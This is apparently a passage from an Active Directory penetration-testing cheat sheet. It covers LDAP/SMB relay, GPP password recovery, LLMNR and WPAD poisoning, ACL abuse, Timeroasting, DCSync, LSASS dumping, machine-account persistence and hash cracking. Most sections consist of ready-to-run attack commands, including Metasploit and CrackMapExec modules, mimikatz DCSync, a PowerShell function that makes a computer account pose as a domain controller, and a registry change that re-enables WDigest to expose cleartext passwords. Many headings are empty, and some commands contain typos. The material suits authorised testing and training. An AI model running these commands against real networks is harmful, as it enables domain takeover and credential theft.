LDAP signing adds a digital signature to the connection. It ensures the authenticity and integrity of the transmitted data. This means that the recipient can verify the sender and determine whether the data has been manipulated along the way.

In case LDAP signing is not enable it is possible to relay a valid LDAP session using *ntlmrelayx* for example.
The LDAP relay attack will give you the ability to perform multiple action such as :

- Dumping LDAP information (ActiveDirectory users/groups/computers information)
- In case the relayed session is from a *Domain Admins* user you will be able to directly persiste and create a new *Domain Admins* user.
- 

Validate LDAP signing is not enforced
```
crackmapexec ldap domain_controllers.txt -u jdoe -p Password123 -M ldap-signing
```

#### LDAP Channel Binding
Channel binding is the act of binding the transport layer and application layer together. In the case of LDAP channel binding, the TLS tunnel and the LDAP application layer are being tied together. When these two layers are tied together it creates a unique fingerprint for the LDAP communication. Any interception of the LDAP communications cannot be re-used as this would require establishing a new TLS tunnel which would invalidate the LDAP communication’s unique fingerprint.

```
python3 LdapRelayScan.py -dc-ip 192.168.0.10 -u jdoe -p Password123
```

### Unencrypted Protocols in use

#### SMTP
Port 25

#### HTTP
Port 80

#### Telnet
Port 23

#### FTP
Port 21

##### LDAP
LDAPS uses its own distinct network port to connect clients and servers. The default port for LDAP is port 389, but LDAPS uses port 636 and establishes TLS/SSL upon connecting with a client.

### SYSVOL / GPP
- https://adsecurity.org/?p=2288

*From Windows client perspective*
```
findstr /S /I cpassword \\<FQDN>\sysvol\<FQDN>\policies\*.xml
```

The PowerSploit function Get-GPPPassword is most useful for Group Policy Preference exploitation.  
- [Get-GPPPassword.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1)

*From Linux client*  

##### Metasploit Module
```
use auxiliary/scanner/smb/smb_enum_gpp
msf auxiliary(smb_enum_gpp) > set rhosts 192.168.1.103
msf auxiliary(smb_enum_gpp) > set smbuser raj
msf auxiliary(smb_enum_gpp) > set smbpass Ignite@123
msf auxiliary(smb_enum_gpp) > exploit
```

##### Metasploit Post-Module : Once you get shell on windows host
```
use post/windows/gather/credentials/gpp
msf post(windows/gather/credentials/gpp) > set session 1
msf post(windows/gather/credentials/gpp) > exploit
```

##### CrackMapExec Module 1 : gpp_password
Retrieves the plaintext password and other information for accounts pushed through Group Policy Preferences.
Groups.xml, Services.xml, Scheduledtasks.xml, DataSources.xml, Printers.xml, Drives.xml
```
crackmapexec smb 192.168.0.10 -u jdoe -p Password 123 -M gpp_pasword
```

##### CrackMapExec Module 2: gpp_autologin
Searches the domain controller for registry.xml to find autologon information and returns the username and password.
```
crackmapexec smb 192.168.0.10 -u jdoe -p Password 123 -M gpp_autologin
```

##### Impacket Module
Breadth-first search algorithm to recursively find .xml extension files within SYSVOL.
```
Get-GPPPassword.py company.local/jdoe:Password123@192.168.0.10'
```

##### Decrypt the found password manually
```
gpp-decrypt <encrypted cpassword>
```


### LLMNR / NBT-NS / mDNS
> Microsoft systems use Link-Local Multicast Name Resolution (LLMNR) and the NetBIOS Name Service (NBT-NS) for local host resolution when DNS lookups fail. Apple Bonjour and Linux zero-configuration implementations use Multicast DNS (mDNS) to discover systems within a network.

#### Responder + ntlmrelayx
It is possible to directly relay NetNTLM has to SMB/LDAP/HTTP and DNS session over a victim. If the victim has SMB and/or LDAP signing activated try to relay on other protocols than SMB or LDAP.

Poisoning LLMNR/NetBios-NS response
```
python3 Responder.py -I eth0 -wbF
```

Relay over smb to 192.168.0.10, with smb2 support, socks enable, interactive mode and dumping the NetNTLM relayed hash in option
```
sudo ntlmrelayx.py -t 192.168.0.10 -i -socks -smb2support -debug --output-file ./netntlm.hashes.relay
```


### WPAD
Many browsers use Web Proxy Auto-Discovery (WPAD) to load proxy settings from the network, download the wpad.dat, Proxy Auto-Config (PAC) file.

A WPAD server provides client proxy settings via a particular URL:
- http://wpad.example.org/wpad.dat

--> When a machine has these protocols enabled, if the local network DNS is not able to resolve the name, the machine will ask to all hosts of the network.  

Using Responder we can poison DNS, DHCP, LLMNR and NBT-NS traffic to redirect clients to a malicious WPAD Server.
```
responder -I eth0 -wFb
```

--> Backdooring using Responder and WPAD attack
Modify Responder configuration file
```
; Set to On to serve the custom HTML if the URL does not contain .exe
; Set to Off to inject the 'HTMLToInject' in web pages instead
Serve-Html = On
```

--> Create a specific web page for error or use the default one.  

--> Create an implant to be downloaded by the client. By default the error message indicate this URL : ```http://isaProxysrv/ProxyClient.exe```  

--> Patch by Microsoft (MS16-077): Location of WPAD file is no longer requested via broadcast protocols bnut only via DNS.

### ACL / DACL Exploitation
- https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse
- https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces#forcechangepassword
- https://github.com/ShutdownRepo/The-Hacker-Recipes/tree/master/ad/movement/dacl


##### BloodyAD - AutoBloody
- https://github.com/CravateRouge/bloodyAD
- https://github.com/CravateRouge/autobloody
  

##### DACL Edit python script
- https://github.com/fortra/impacket/pull/1291/files#diff-9648ed41f85733cdf640836e6166cb9dfd8f6c2e967491da2b516bbd2aac9989
  
#####  ForceChangePassword
- https://docs.microsoft.com/en-us/windows/win32/adschema/r-user-force-change-password
If we have *ExtendedRight* on *User-Force-Change-Password* object type, we can reset the user's password without knowing their current password.  

Returns the ACLs associated with jdoe user in DOMAIN.local domain and resolve GUIDs to their display names
```
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.IdentityReference -eq "DOMAIN.local\jdoe"}

```

```
. .\PowerView.ps1
Set-DomainUserPassword -Identity User -Verbose
```

Using *rpcclient*
```
rpcclient -U jdoe 10.10.10.192
setuserinfo2 victimUser 23 'Pass123!'
```

### MachineAccountQuota (MAQ)
- https://www.netspi.com/blog/technical/network-penetration-testing/machineaccountquota-is-useful-sometimes/
- https://github.com/Kevin-Robertson/Powermad
> MachineAccountQuota (MAQ) is a **domain level attribute** that by default permits unprivileged users to attach up to **10** computers to an Active Directory (AD) domain

Various tools exist which can create a machine account from the command line or from an implant such as **StandIn**, **SharpMad** and **PowerMad**.  

- Machine accounts created through MAQ are placed into the Domain Computers group
--> In situations where the Domain Computers group has been granted extra privilege, it’s important to remember that this privilege also extends to unprivileged users through MAQ.  

- The creator account is granted write access to some machine account object attributes. Normally, this includes the following attributes:

1. AccountDisabled
2. description
3. displayName
4. DnsHostName
5. ServicePrincipalName
6. userParameters
7. userAccountControl
8. msDS-AdditionalDnsHostName
9. msDS-AllowedToActOnBehalfOfOtherIdentity
10. samAccountName

- The machine account itself has write access to some of its own attributes. The list includes the msDS-SupportedEncryptionTypes attribute which can have an impact on the negotiated Kerberos encryption method.

- The samAccountName can be changed to anything that doesn’t match a samAccountName already present in a domain.
--> Interestingly, the samAccountName can even end in a space which permits mimicking any existing domain account. You can strip the $ character also.



### Protected Users
Well-known SID/RID: ```S-1-5-21-<domain>-525```

This group was introduced in Windows Server 2012 R2 domain controllers.  

```
Get-ADGroupMember -Identity "Protected Users"
```

```
for group in $(rpcclient -U '' -N 10.10.0.10 -c enumdomgroups | grep Protected | cut -d '[' -f 3 | cut -d ']' -f 1); do rpcclient -U '' -N 10.10.0.10 -c "querygroupmem $group"; done
```

[Protected users](https://docs.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/protected-users-security-group) is a Security Group which aims to create additional protection against compromise of credential regarding its members, such as the followings:  
- Kerberos protocol will not use the weaker DES or RC4 encryption types in the preauthentication process
- Credential delegation (CredSSP) will not cache the user's plain text credentials
- Windows Digest will not cache the user's plain text credentials even when Windows Digest is enabled (From windows 8.1 and Server 2012 R2)
- The user’s account cannot be delegated with Kerberos constrained or unconstrained delegation
- Members of this group cannot use NTLM
- Kerberos ticket-granting tickets (TGTs) lifetime = 4 hours

### PAC
Check if the DC is vulnerable to CVE-2021-42278 and CVE-2021-42287 to impersonate DA from standard domain user

### ProxyLogon

### ProxyShell

### ProxyNotShell

### ZeroLogon

```
crackmapexec smb 10.10.0.10 -u jdoe -p Pass1234 -d company.com -M zerologon
```

### PrintNightmare

#### SpoolSample
https://github.com/leechristensen/SpoolSample

#### ShadowCoerce
https://github.com/ShutdownRepo/ShadowCoerce

#### DFSCoerce
https://github.com/Wh04m1001/DFSCoerce

#### MultiCoerce


### Petitpotam
PetitPotam, publicly disclosed by French security researcher Lionel Gilles, is comparable to the PrintSpooler bug but utilizes the **MS-EFSRPC** API to coerce authentication rather than **MS-RPRN**.

Check to validate host is vulnerable to petitpotam
```
crackmapexec smb 10.10.0.10 -u jdoe -p Pass1234 -d company.com -M petitpotam
```
### samAccountName spoofing

### MiTM - IPv6 + Relay
- Windows prefers IPv6 by default.
- DHCPv6 is constantly broadcasting to the entire network.

- https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/

SMB Relay

LDAP Relay

Tools: ntlmrelayx, multirelay

### Responder + Relay
SMB Relay

LDAP Relay

### WSUS Exploitation
In case of WSUS being deployed without SSL/TLS encrypted communications, we can perform a man-in-the-middle attack and inject a fake update.
- Can only deliver binaries signed by Microsoft (PSExec, BGinfo with VB script)
- Need to perform ARP Spoofing or tamper with the system's proxy settings (if possible)

--> WSUS Server can be found based on the server hostname (e.g. server-wsus-01) or based on open ports (8530,8531)  

**Tools**  
- https://github.com/pimps/wsuxploit
- https://github.com/GoSecure/pywsus
- https://github.com/ctxis/wsuspect-proxy/

```
python pywsus.py -H 172.16.205.21 -p 8530 -e PsExec64.exe -c ‘/accepteula /s cmd.exe /c “echo wsus.poc > C:\\poc.txt”‘
```

- [WSUSpect Black Hat Talk](https://www.blackhat.com/docs/us-15/materials/us-15-Stone-WSUSpect-Compromising-Windows-Enterprise-Via-Windows-Update.pdf)
- [WSUSPect tool](https://github.com/ctxis/wsuspect-proxy)
- [PyWSUS](https://www.gosecure.net/blog/2020/09/03/wsus-attacks-part-1-introducing-pywsus/)
  
Windows Update is a Windows service, **wuauclt.exe** which run periodically to check for updates.  
Registry keys exist that govern various details such:
- Update server's location
- Update frequency
- Privileged Escalation of unprivileged users

--> Communication: Client --> Windows Update Server : HTTP(S) / SOAP XML web service.  

#### WSUS details
WSUS or Windows Software Update Services is the enterprise variant of Windows update.  
- Updates fetched from local server instead of Microsoft Server
- Updates must be approved by administrator before being pushed out

**wsus soap service**  


**MITM wsus soap service**


Check WSUS HTTP Misconfiguration:
- Check Registry on WSUS client machines to validate TLS usage
```
HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate\
WUServer = http://wsus-server.local:8530
```

- Check if the computer will use WUServer
```
HKLMT\Software\Policies\Microsoft\Windows\WindowsUpdate\AU
UseWUServer = 1
```


### LDAP Pass Back
LDAP pass back attack target LDAP credentials used by the MFP within its network configuration (check for default credentials on printers).  

The attacker tricks a device to connect to a rogue server to disclose the stored network credentials or hashes while the device trying to authenticate to the server.

2 methods:
1. nc listener
2. Rogue LDAP server

Sometimes the domain account used within theses printers are service accounts with interesting privileges and I also found domain admins account credentials being used. In any case if a domain account is used it can give you a first foothold within the domain from an unauthenticated perspective.  

### SMTP Pass Back
- https://github.com/RobinMeis/MITMsmtp
--> Similar to LDAP Pass back with SMTP protocol this time.

## Kerberos attacks
### AS-Rep Roasting

### Kerberoasting

### Timeroasting / TrustRoasting / Computer Spraying
> Timeroasting takes advantage of Windows' NTP authentication mechanism, allowing unauthenticated attackers to effectively request a password hash of any computer account by sending an NTP request with that account's RID. This is not a problem when computer accounts are properly generated, but if a non-standard or legacy default password is set this tool allows you to brute-force those offline. 

- https://www.secura.com/uploads/whitepapers/Secura-WP-Timeroasting-v3.pdf
- https://github.com/SecuraBV/Timeroast

On domain controller (up to Windows Server 2019) if you create a computer account (Workstation1$) with CMD Line (net computer) or through the GUI box and check **Assign this computer account as a pre-Windows 2000 Computer**.  

--> This will set the computer account password to default password that matches the first 14 characters of their computer name, lowercase and without a dollar sign.



```
python3 timeroast.py 192.168.2.60 -o ntp_hashes

1002:$sntp-ms$3axxxxxxx3$1c04xxxxxxxxxxxxxxxxxxxxxxxxxxxx038
1116:$sntp-ms$11xxxxxxx2$1c04xxxxxxxxxxxxxxxxxxxxxxxxxxxx73e
1119:$sntp-ms$e9xxxxxxxb$1c04xxxxxxxxxxxxxxxxxxxxxxxxxxxxcfa
1117:$sntp-ms$30xxxxxxx5$1c04xxxxxxxxxxxxxxxxxxxxxxxxxxxx2d3
1127:$sntp-ms$71xxxxxxx7$1c04xxxxxxxxxxxxxxxxxxxxxxxxxxxx663
1128:$sntp-ms$51xxxxxxxd$1c04xxxxxxxxxxxxxxxxxxxxxxxxxxxx9f6
1129:$sntp-ms$08xxxxxxxf$1c04xxxxxxxxxxxxxxxxxxxxxxxxxxxxdd4
1131:$sntp-ms$d5xxxxxxxc$1c04xxxxxxxxxxxxxxxxxxxxxxxxxxxx41e
1137:$sntp-ms$13xxxxxxxe$1c04xxxxxxxxxxxxxxxxxxxxxxxxxxxxb80
1138:$sntp-ms$9exxxxxxx0$1c04xxxxxxxxxxxxxxxxxxxxxxxxxxxx767
1139:$sntp-ms$bbxxxxxxxc$1c04xxxxxxxxxxxxxxxxxxxxxxxxxxxxea2
1140:$sntp-ms$9axxxxxxx5$1c04xxxxxxxxxxxxxxxxxxxxxxxxxxxxe01
```

**Cracking NTP Hashes**
- https://github.com/hashcat/hashcat/issues/3629
- https://github.com/hashcat/hashcat/commit/5446570a4fe7fbadc0bb481f41616e76833da735

Format 31300 (SNTP-MS) available to hashcat to crack the NTP hashes.

```
hashcat -a 0 -m 3130 ntp_hashes ./wordlists/rockyou.txt
```

### MS14-066


## Active Directory exploitation

### ZeroLogon

### Exploiting ADCS
Find PKI Enrollment Services in Active Directory and Certificate Templates Names
```
crackmapexec ldap 10.10.0.10 -u jdoe -p Pass1234 -d company.com -M adcs
certutil.exe -config - -ping
```

- https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/ad-cs-abuse
- https://github.com/PKISolutions/PSPKI
- https://www.exandroid.dev/2021/06/23/ad-cs-relay-attack-practical-guide/

### ADCS WebDav + NTLM relay to LDAP
- https://twitter.com/tifkin_/status/1418855927575302144/photo/1
- https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/adcs-+-petitpotam-ntlm-relay-obtaining-krbtgt-hash-with-domain-controller-machine-certificate#rbcd-remote-computer-takeover

### Exploiting machine accounts (WS01$)
- https://pentestlab.blog/2022/02/01/machine-accounts/
- https://secarma.com/using-machine-account-passwords-during-an-engagement/

> Every computer joined to Active Directory (AD) has an associated computer account in AD. A computer account in AD is a security principal (same as user accounts and security groups) and as such has a number of attributes that are the same as those found on user accounts including a Security IDentifier (SID), memberOf, lastlogondate, passwordlastset, etc.

- Check the group membership for a machine account, sometime the machine account is member of elevated group or **Domain Admins**

```
Get-ADComputer -Filter * -Properties MemberOf | ? {$_.MemberOf}
net group "domain admins" /domain
```

Converting machine account Hex value to NTLM hash:
```
import hashlib,binascii hexpass = "e6 5f 92..."
hexpass = hexpass.replace(" ","")
passwd = hexpass.decode("hex")
hash = hashlib.new('md4', passwd).digest()
print binascii.hexlify(hash)
```

### Over-Pass-The-hash
- https://medium.com/r3d-buck3t/play-with-hashes-over-pass-the-hash-attack-2030b900562d
- blog.gentilkiwi.com/securite/mimikatz/overpass-the-hash

Use the user or computer NTLM hash to request Kerberos tickets.
--> Alternative to Pass The hash over NTLM protocol  
--> Useful in networks where NTLM protocol is disabled and only Kerberos is allowed.  

```
getTGT.py domain.local/workstation1$ -hashes XXXXXXXXXXXXXXXXXXXXXXXXXXX:XXXXXXXXXXXXXXXXXXXXXXXXXXX -dc-ip 192.168.0.10 -debug
KRB5CCNAME=/home/test/lutzenfried/tooling/workstation1\$.ccache

```
Potential error when using Over Pass The Hash attack due to the Kerberos and time.
```
Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```
--> Error raised because of your local time, you need to synchronise the host with the DC: ```ntpdate <IP of DC>```

### Pass The ticket
- https://book.hacktricks.xyz/windows/active-directory-methodology/pass-the-ticket


### Silver ticket
- https://adsecurity.org/?p=2011
- https://pentestlab.blog/2022/01/17/domain-persistence-machine-account/

### Kerberos Delegation
- https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/
- https://posts.specterops.io/a-case-study-in-wagging-the-dog-computer-takeover-2bcb7f94c783
- https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html

Check for system trusted for delegation
```
crackmapexec ldap 192.168.0.10 -u jdoe -p Password123 --trusted-for-delegation
OR
ldapdomaindump -u "company.local\\jdoe" -p "Password123" 192.168.0.10  
grep TRUSTED_FOR_DELEGATION domain_computers.grep
OR
PS> Get-ADComputer -Filter {TrustedForDelegation -eq $True}
```

#### Exploiting RBCD : MachineAccountQuota
- https://beta.hackndo.com/resource-based-constrained-delegation-attack/

#### Exploiting RBCD : WRITE Priv
- https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution

### From On-Premise to Azure
- MSOL account
- AzureAD Connect

### Domain Trust
- https://harmj0y.medium.com/a-guide-to-attacking-domain-trusts-ef5f8992bb9d
- https://dirkjanm.io/active-directory-forest-trusts-part-one-how-does-sid-filtering-work/
- https://dirkjanm.io/active-directory-forest-trusts-part-two-trust-transitivity/
- https://improsec.com/tech-blog/o83i79jgzk65bbwn1fwib1ela0rl2d
- https://adsecurity.org/?p=1640
- https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2008-R2-and-2008/cc731335(v=ws.11)?redirectedfrom=MSDN


### Forest Trust
- https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc755700(v=ws.10)?redirectedfrom=MSDN


## Lateral movement

smbclient authentication using NTLM hash
```
smbclient //192.168.0.10/C$ -U corp.company.com/jdoe --pw-nt-hash <NT hash>
```


## wmiexec

#### Detection

## smbexec

#### Detection


## psexec

#### Detection


## atexec

#### Detection


## comexec

#### Detection


## Persistence

### Primary Group ID

The *primary group id* is a a user object attribute and contains *relative identifier* (RID) for the primary group of the user.  
--> By default this is the RID for the *Domain Users* group (RID 513).

By using the *Primary Group ID attribute* and a *specific Access Control Entry* (ACE), an attacker can hide the membership of one group that he is already a member of without having any permissions on the group.

This cool trick cannot work on members of protected groups such as Domain Admins, but can work on members of normal groups such as DnsAdmins, which can be used to escalate to Domain Admins.

- https://www.semperis.com/blog/how-attackers-can-use-primary-group-membership-for-defense-evasion/
- https://blog.alsid.eu/primary-group-id-attack-a50dca142771

### Dropping SPN on admin accounts
https://adsecurity.org/?p=3466

####  Persistence in AD environment
- https://padlet.com/sylvaincortes/5ih32mx9f637sk1a

#### Machine/Computer accounts
- https://adsecurity.org/?p=2753

Machine accounts could be used as a backdoor for domain persistence by adding them to high privilege groups.

```
net group "Domain Admins" newMachine01$ /add /domain
python3 secretsdump.py company.local/newMachine01\$:Password123@10.0.0.1 -just-dc-user krbtgt
```

#### Machine/Computer accounts 2
- https://stealthbits.com/blog/server-untrust-account/
- https://github.com/STEALTHbits/ServerUntrustAccount
- https://pentestlab.blog/2022/01/17/domain-persistence-machine-account/

> Even though that dumping passwords hashes via the DCSync technique is not new and SOC teams might have proper alerting in place, using a computer account to perform the same technique might be a more stealthier approach.

- https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/useraccountcontrol-manipulate-account-properties

Modification of the “userAccountControl” attribute can transform a computer account to a domain controller.

Computer account to appear as a domain controller:
- **userAccountControl** attribute needs to have the value of 0x2000 = ( SERVER_TRUST_ACCOUNT ) decimal : 8192
--> Modification of this attribute requires domain administrator level privileges

```
Import-Module .\Powermad.psm1
New-MachineAccount -MachineAccount newMachine01 -Domain company.local -DomainController dc01.company.local
```
By default new computer will have primary group ID 515 (RID for domain groups and represents that this is a domain computer)

If you can modify the **userAccountControl** an therefore change the primary group ID. This attribute would be modified to have a value of **8192** the primary group id will change to **516** which belongs to domain controllers.

```
Set-ADComputer newMachine01 -replace @{ "userAccountcontrol" = 8192 }
```

Most important bit of having a computer account to act as a domain controller is that the DCSync can be used on that arbitrary account instead of the legitimate domain controller.

**Steps:**
1. Creation a machine account
2. Modifying **userAccountControl** to 8192
3. Computer account is known its NTLM hash could be used to pass the hash (create new cmd.exe, mimikatz...)
4. Command prompt will open under the context of the machine account --> DCSync KRBTG or whole identities
```
lsadump::dcsync /domain:purple.lab /user:krbtgt
```
**Automate technique 1:**
- https://github.com/STEALTHbits/ServerUntrustAccount
```
Add-ServerUntrustAccount -ComputerName "newMachine01" -Password "Password123" -Verbose
Invoke-ServerUntrustAccount -ComputerName "newMachine01" -Password "Password123" -MimikatzPath ".\mimikatz.exe"
```

**Automate technique 2:**
PowerShell script to automate domain persistence via the userAccountControl active directory attribute.
```
function Execute-userAccountControl
{
[CmdletBinding()]
        param
        (
                [System.String]$DomainFQDN = $ENV:USERDNSDOMAIN,
                [System.String]$ComputerName = 'Pentestlab',
                [System.String]$OSVersion = '10.0 (18363)',
                [System.String]$OS = 'Windows 10 Enterprise',
                [System.String]$DNSName = "$ComputerName.$DomainFQDN",
$MachineAccount = 'Pentestlab'
        )
$secureString = convertto-securestring "Password123" -asplaintext -force
$VerbosePreference = "Continue"

Write-Verbose -Message "Creating Computer Account: $ComputerName"
New-ADComputer $ComputerName -AccountPassword $securestring -Enabled $true -OperatingSystem $OS -OperatingSystemVersion $OS_Version -DNSHostName
$DNSName -ErrorAction Stop;
Write-Verbose -Message "$ComputerName created!"
Write-Verbose -Message "Attempting to establish persistence."
Write-Verbose -Message "Changing the userAccountControl attribute of $MachineAccount computer to 8192."
Set-ADComputer $MachineAccount -replace @{ "userAccountcontrol" = 8192 };
Write-Verbose -Message "$MachineAccount is now a Domain Controller!"
Write-Verbose -Message "Domain persistence established!You can now use the DCSync technique with Pentestlab credentials."
$VerbosePreference = "Continue"
}
```


## Post-Exploitation

### Computer accounts privesc
> For example, if an admin server is joined to a group with backup rights on Domain Controllers, all an attacker needs to do is compromise an admin account with rights to that admin server and then get System rights on that admin server to compromise the domain.

1. Compromise an account with admin rights to admin server.
2. Admin server computer account needs rights to Domain Controllers.


### Active Directory NTDS : Clear Text passwords (Reversible encryption)
Sometimes when using [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) to extract NTDS.dit you will encounter some CLEARTEXT credential wihtin the dump.   

Cleartext does not really mean that the passwords are stored as is. They are stored in an encrypted form using **RC4** encryption.   

The key used to both encrypt and decrypt is the **SYSKEY**, which is stored in the registry and can be extracted by a domain admin.This means the hashes can be trivially reversed to the cleartext values, hence the term “reversible encryption”.

List users with "Store passwords using reversible encryption" enabled
```
Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl
```
--> list of user account control flag :   
- https://docs.microsoft.com/en-us/windows/win32/adschema/a-useraccountcontrol
- http://www.selfadsi.org/ads-attributes/user-userAccountControl.htm

### DCSYNC


- [Primer on DCSync attack](https://www.alteredsecurity.com/post/a-primer-on-dcsync-attack-and-detection)
- [ADSecurity - Mimikatz DCSync Usage, Exploitation, and Detection](https://adsecurity.org/?p=1729)
- [Ired Team - Dump Password From DC with DCSync](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync)
- [Synacktiv - Dive Into MDI - DCsync detection bypass](https://www.synacktiv.com/publications/a-dive-into-microsoft-defender-for-identity.html)

### Accessing LSASS secrets

##### Lsassy
- https://github.com/Hackndo/lsassy

```
lsassy -d company.local -u jdoe -p Pass1234 192.168.1.0/24
```


### Bring Your Own Domain Controller
- https://blog.zsec.uk/byodc-attack/


## Misc : AD Audit

#### WDigest
- https://blog.xpnsec.com/exploring-mimikatz-part-1/

[Wdigest](https://docs.microsoft.com/pt-pt/previous-versions/windows/server/cc778868(v=ws.10)) was introduced in WinXP and designed to be used with HTTP protocol for authentication.  

Enabled *by default* in multiple versions of Windows:
- Windows XP
- Windows 8.0
- Server 2003
- Server 2008
- Server 2012

--> With *WDigest* plain text passwords are stored in LSASS.  

Retrieving using Mimikatz
```
sekurlsa::wdigest
```

Can be deactivated/activated setting to *1* the value of *UseLogonCredential* and *Negotiate* in **HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\SecurityProviders\WDigest**.  
--> If these registry keys don't exist or the value is "0", then WDigest will be deactivated.  

```
reg query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential
reg query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v Negotiate
```

As an attacker you can reactivate WDigest to get cleartext credentials on sensitive systems.  
```
crackmapexec smb 192.168.0.10 -u jdoe -p Pass123 -M wdigest -o ACTION=enable
```
```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
```

#### Passwords stored in LSA (LSA Storage)

Since *Windows 8.1* you can protect LSA storage using Protected Process ([RunAsPPL](https://itm4n.github.io/lsass-runasppl/)).  
--> This will prevent regular ```mimikatz.exe sekurlsa:logonpasswords``` for working properly.

With this registry key enable, the following *3* actions (which require an handle on LSASS  ) will no longer be possible:
```
sekurlsa:logonpasswords
lsadump::lsa: Did not work
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlmhash>
```

With this registry key enable, the following *5* actions will still be possible:
```
lsadump::dcsync /domain:<domain> /user:<user>
lsadump::secrets (get syskey information to decrypt secrets from the registry on disk)
lsadump::sam (Reading credentials from the SAM on disk)
kerberos::golden /user:<user> /domain:<domain> /sid:<sid> /krbtgt:<krbtgt hash> /endin:<value> /renewmax:<value>
keystroke logging
```

Validate *RunAsPPL* is enable
```
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\LSA /v RunAsPPL
```

- https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsa-secrets

Documentation about LSA secrets: https://www.passcape.com/index.php?section=docsys&cmd=details&id=23

--> Mimikatz has the *mimidrv.sys* driver that can bypass LSA Protection. Pretty much flag everywhere you will need to write you own driver. 
    - https://posts.specterops.io/mimidrv-in-depth-4d273d19e148 
--> You can also build your own driver and sign it digitally  
--> You can also load an official and vulnerable driver that can be exploited to run arbitrary code in the Kernel  
    - https://github.com/fengjixuchui/gdrv-loader  
    - https://github.com/RedCursorSecurityConsulting/PPLKiller 
    - https://gorkemkaradeniz.medium.com/defeating-runasppl-utilizing-vulnerable-drivers-to-read-lsass-with-mimikatz-28f4b50b1de5 
--> Use other process (e.g Antivirus process) which sometimes have already handles on LSASS process  
    - https://skelsec.medium.com/duping-av-with-handles-537ef985eb03  

#### Abusing leaked handles to dump LSASS memory
- https://github.com/helpsystems/nanodump  
- https://splintercod3.blogspot.com/p/the-hidden-side-of-seclogon-part-2.html  

#### LM password storage
LM hash is an old deprecated method of storing passwords which has the following weaknesses:  
- Password length is limited to 14 characters
- Passwords that are longer than 7 characters are split into two and each half is hashed separately
- All lower-case characters are converted to upper-case before hashing

```
grep -iv ':aad3b435b51404eeaad3b435b51404ee:' ntds.dit
```
#### Storing passwords using reversible encryption
- https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/store-passwords-using-reversible-encryption

#### Inactive domain accounts
```
sort -t ';' -k 8 domain_users.grep | grep -v ACCOUNT_DISABLED | awk -F ';' '{print $3, $8}'
```

#### Privileged users with password reset overdue
Once the dumping is done (ldapdomaindump), get the list of users with **AdminCount** attribute set to **1** by parsing the ‘domain_users.json’ file:
```
jq -r '.[].attributes | select(.adminCount == [1]) | .sAMAccountName[]' domain_users.json > privileged_users.txt
```
Then iterate through the list of privileged users, display their last password reset date (pwdLastSet) and sort it:
```
while read user; do grep ";${user};" domain_users.grep; done < privileged_users.txt | \
  grep -v ACCOUNT_DISABLED | sort -t ';' -k 10 | awk -F ';' '{print $3, $10}'
```

#### Users with non-expiring passwords
```
grep DONT_EXPIRE_PASSWD domain_users.grep | grep -v ACCOUNT_DISABLED
```

#### Service account within privileged groups
```
net group "Schema Admins" /domain
net group "Domain Admins" /domain
net group "Enterprise Admins" /domain
```

#### AdminCount on regular users
```
jq -r '.[].attributes | select(.adminCount == [1]) | .sAMAccountName[]' domain_users.json
```


## Data-Exfiltration
Data exfiltration and DLP (Data Loss Prevention) bypass.


## Cracking Hashes
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Hash%20Cracking.md
  
#### LM hash
```
hashcat -m 3000 -a 0 lm_hashes.txt ../../wordlists/rockyou_2021.txt
```

#### NTLM hash
Hashcat mask attack
- https://hashcat.net/wiki/doku.php?id=mask_attack
```
hashcat -m 1000 -a 3 ntds.dit.ntds ?u?l?l?l?l?d?d?d?d?s
```

Hashcat rule based cracking
```
hashcat -m 1000 -a 0 --username ntds.dit.ntds ../../wordlists/rockyou_2021.txt -r ../../wordlists/OneRuleToRuleThemAll.rule
```

Hashcat wordlist cracking
```
hashcat -m 1000 -a 0 --username ntds.dit.ntds ../../wordlists/rockyou_2021.txt
```

#### Net-NTLMv1
```
hashcat -m 5500 -a 0 ntlmv1_hashes.txt ../../wordlists/rockyou_2021.txt 
```

#### Net-NTLMv2
```
hashcat -m 5600 -a 0 ntlmv2_hashes.txt ../../wordlists/rockyou_2021.txt 
```

#### AS-Rep Roast response (Kerberos 5 AS-REP etype 23)
```
hashcat -m 18200 -a 0 AS_REP_responses_hashes.txt ../../wordlists/rockyou_2021.txt
```

#### Kerberoast (Service Ticket)
```
hashcat -m 13100 -a 0 TGS_hashes.txt ../../wordlists/rockyou_2021.txt
```

#### Kerberos 5 TGS (AES128)
```
hashcat -m 19600 -a 0 TGS_hashes.txt ../../wordlists/rockyou_2021.txt
```

#### Kerberos 5 TGS (AES256)
```
hashcat -m 19700 -a 0 TGS_hashes.txt ../../wordlists/rockyou_2021.txt
```

#### MsCache 2 (DCC2)
